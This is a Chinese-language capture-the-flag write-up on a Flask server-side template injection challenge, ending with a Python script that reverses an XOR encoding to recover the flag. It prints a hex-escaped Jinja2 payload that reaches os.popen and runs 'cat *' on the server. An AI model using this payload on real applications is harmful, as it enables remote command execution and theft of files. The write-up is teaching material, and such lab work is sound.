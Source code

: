 # Flask SSTI

## 知识点

`python ssti`

`python xor`

## 解题

找到个输入框，随便输入什么都返回同样的字符串，因为是`SSTI`的题目，使用`SSTI`的`payload`

![](img/Flask SSTI-2.png)

发现输入框处存在`SSTI`，看一下配置信息，发现了`flag`

![](img/Flask SSTI-3.png)

但是似乎是被加密的，要解密需要进一步读取`app.py`文件，尝试各种绕过之后发现可以`hex`绕过

```python
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[117]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("cat *")["read"]()}}
```

![](img/Flask SSTI-4.png)

用了`异或`进行加密，在逆向比较常见，利用`异或`的特性，即异或某字符两字即为原字符

example：

```python
print(ord('a'), ord('c'))
# 97 99
print(ord('a') ^ ord('c'))
# 2
print(ord('a') ^ ord('c') ^ ord('c'))
# 97
```

所以只需要再次异或即可获取明文，`python`代码如下

```python
encoded = '(U0\x1fy\x13y6fSsaxBM\x02mT3EI\x1a\t\x08-=\x01f\x1cUF\x15'

key = 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3'
key2 = 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT'

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

def decode(line, key, key2):
    result = ''
    for x in range(len(line)):
        print(chr(ord(line[x]) ^ x ^ ord(key[::-1][x]) ^ ord(key2[x])), end='')


if __name__ == '__main__':
    decode(encoded, key, key2)
```

![](img/Flask SSTI-5.png)